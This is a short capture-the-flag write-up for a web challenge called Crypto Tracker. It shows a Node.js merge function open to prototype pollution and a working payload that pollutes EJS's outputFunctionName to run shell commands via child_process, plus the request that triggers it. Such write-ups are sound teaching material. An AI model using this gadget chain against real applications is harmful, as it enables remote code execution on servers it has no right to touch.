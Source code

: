 ## Crypto Tracker (148 pts)

1. Given attachment

```
├── app
│   ├── app.js
│   ├── flag.txt
│   ├── package.json
│   ├── package-lock.json
│   ├── routes
│   │   ├── errors.js
│   │   └── index.js
│   ├── utils.js
│   └── views
│       ├── error.html
│       └── index.html
├── docker-compose.yml
└── Dockerfile
```

2. merge function vulnerable to prototype pollution

app/utils.js

```
function merge (dst, ...sources) {
    for (src of sources) {
        for (let key in src) {
            let s = src[key], d = dst[key]
            if (Object(s) == s && Object(d) === d) {
                dst[key] = merge(d, s)
                continue
            }
            dst[key] = src[key]
        }
    }
    return dst
}
```
3. application using `ejs` module, we could use this module as gadget to gain RCE.
4. `ejs` module only called when application is error.
5. Pollute module `ejs` -> trigger module ejs with visitting non exist endpoint

payload : 
1. Polluting module `ejs` and replacing `index.html` with our payload
```
POST /crypto HTTP/1.1
Host: 13.212.74.56:3000
8< snip - snip >8

{
    "cryptos": [
        "bitcoin"
    ],
    "options": {
        "constructor": {
            "prototype": {
                "outputFunctionName": "x;process.mainModule.require('child_process').exec('ls / > /opt/ctf/app/views/index.html');x"
            }
        }
    }
}
```
2. Access non exist endpoint to trigger the `ejs` module
```
GET /nyx HTTP/1.1
Host: 13.212.74.56:3000
8< snip - snip >8
```


